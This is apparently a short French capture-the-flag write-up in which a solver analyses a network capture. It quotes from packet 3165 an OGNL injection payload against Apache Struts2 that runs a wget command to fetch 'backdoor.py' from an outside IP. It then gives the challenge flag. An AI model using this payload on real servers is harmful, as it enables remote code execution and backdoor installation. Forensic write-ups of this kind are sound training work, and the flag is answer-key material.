

## Résolution

Dans le paquet 3165 : 
`Qlabel=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"wget https://182.121.42.87/backdoor.py"}))`

Il télécharge un fichier `backdoor.py` depuis l’ip `182.121.42.87`.

Il ne reste plus qu’à identifier le pays à partir de l’IP.

>[!question]- Spoiler du flag
> OPENNC{backdoor.py_Chine}

